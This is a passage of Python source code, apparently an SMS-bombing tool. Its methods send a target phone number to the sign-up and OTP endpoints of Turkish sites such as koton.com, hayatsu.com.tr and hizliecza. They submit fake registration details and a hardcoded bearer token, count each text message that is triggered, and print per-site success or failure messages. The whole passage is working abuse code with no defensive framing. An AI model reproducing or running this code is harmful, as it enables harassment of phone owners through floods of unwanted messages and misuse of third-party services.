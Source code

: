             data = f"--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"first_name\"\r\n\r\nMemati\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"last_name\"\r\n\r\nBas\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"email\"\r\n\r\n{self.mail}\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"password\"\r\n\r\n31ABC..abc31\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"phone\"\r\n\r\n0{self.phone}\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"confirm\"\r\n\r\ntrue\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"sms_allowed\"\r\n\r\ntrue\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"email_allowed\"\r\n\r\ntrue\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"date_of_birth\"\r\n\r\n1993-07-02\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"call_allowed\"\r\n\r\ntrue\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"gender\"\r\n\r\n\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk--\r\n"
            r = requests.post(url, headers=headers, data=data, timeout=6)
            if r.status_code == 202:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> koton.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> koton.com")


    #hayatsu.com.tr
    def Hayatsu(self):
        try:
            url = "https://api.hayatsu.com.tr:443/api/SignUp/SendOtp"
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0", "Accept": "application/json, text/javascript, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Referer": "https://www.hayatsu.com.tr/", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqdGkiOiJhMTA5MWQ1ZS0wYjg3LTRjYWQtOWIxZi0yNTllMDI1MjY0MmMiLCJsb2dpbmRhdGUiOiIxOS4wMS4yMDI0IDIyOjU3OjM3Iiwibm90dXNlciI6InRydWUiLCJwaG9uZU51bWJlciI6IiIsImV4cCI6MTcyMTI0NjI1NywiaXNzIjoiaHR0cHM6Ly9oYXlhdHN1LmNvbS50ciIsImF1ZCI6Imh0dHBzOi8vaGF5YXRzdS5jb20udHIifQ.Cip4hOxGPVz7R2eBPbq95k6EoICTnPLW9o2eDY6qKMM", "Origin": "https://www.hayatsu.com.tr", "Dnt": "1", "Sec-Gpc": "1", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Te": "trailers"}
            data = {"mobilePhoneNumber": self.phone, "actionType": "register"}
            r = requests.post(url, headers=headers, data=data, timeout=6)
            if r.json()["is_success"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.hayatsu.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.hayatsu.com.tr")


    #hizliecza.com.tr
    def Hizliecza(self):
        try:
            url = "https://hizlieczaprodapi.hizliecza.net:443/mobil/account/sendOTP"
            headers = {"Accept": "application/json", "Content-Type": "application/json", "Accept-Encoding": "gzip, deflate", "User-Agent": "hizliecza/12 CFNetwork/1335.0.3.2 Darwin/21.6.0", "Accept-Language": "en-US,en;q=0.9", "Authorization": "Bearer null"}
            json={"otpOperationType": 2, "phoneNumber": f"+90{self.phone}"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["isSuccess"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> hizlieczaprodapi.hizliecza.net")
                self.adet += 1
            else: